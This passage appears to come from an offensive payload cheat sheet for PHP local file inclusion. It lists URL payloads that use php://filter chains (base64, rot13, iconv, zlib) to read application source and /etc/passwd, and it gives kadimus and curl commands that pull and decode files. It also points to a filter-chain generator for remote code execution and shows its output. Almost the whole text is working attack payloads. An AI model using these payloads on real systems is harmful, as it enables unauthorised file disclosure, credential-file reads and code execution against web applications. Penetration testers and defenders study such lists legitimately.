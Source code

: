 The part "`php://filter`" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Wrappers can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`: 
- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then `base64encode` (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```

Also there is a way to turn the `php://filter` into a full RCE. 

* [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) - A CLI to generate PHP filters chain
  ```powershell
  $ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
  [+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
  ```